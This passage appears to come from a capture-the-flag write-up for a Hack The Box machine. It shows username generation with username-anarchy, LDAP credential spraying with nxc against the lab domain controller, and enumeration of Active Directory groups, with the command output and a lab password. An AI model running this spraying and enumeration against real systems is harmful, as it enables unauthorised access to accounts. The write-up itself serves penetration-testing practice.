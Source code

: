 `username-anarchy` was used to create the file `paul.txt` which contains all possible username combinations for user `paul taylor`.
```
fcoomans@kali:~/htb/haze$ username-anarchy/username-anarchy paul taylor >paul.txt

fcoomans@kali:~/htb/haze$ head paul.txt
paul
paultaylor
paul.taylor
paultayl
pault
p.taylor
ptaylor
tpaul
t.paul
taylorp
```

`nxc` was run again but this time using the generate usernames and found that the correct credentials are `haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24`.
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u paul.txt -p Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [-] haze.htb\paul:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             [-] haze.htb\paultaylor:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```

![](images/Pasted%20image%2020250628090331.png)

#### mark.adams

`nxc` was then used to get the Active Directory (AD) groups.  Only a handful of groups were shown.
At this point it looked like Paul had limited rights to read AD groups and membership.
One interesting group was shown however: `Remote Management Users`.
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "paul.taylor" -p 'Ld@p_Auth_Sp1unk@2k24' --groups |grep -v "membercount: 0"
LDAP                     10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP                     10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
LDAP                     10.10.11.61     389    DC01             Administrators                           membercount: 3
LDAP                     10.10.11.61     389    DC01             Users                                    membercount: 3
LDAP                     10.10.11.61     389    DC01             Guests                                   membercount: 2
LDAP                     10.10.11.61     389    DC01             IIS_IUSRS                                membercount: 1
LDAP                     10.10.11.61     389    DC01             Certificate Service DCOM Access          membercount: 1
LDAP                     10.10.11.61     389    DC01             Remote Management Users                  membercount: 2
LDAP                     10.10.11.61     389    DC01             Pre-Windows 2000 Compatible Access       membercount: 2
LDAP                     10.10.11.61     389    DC01             Windows Authorization Access Group       membercount: 1
```
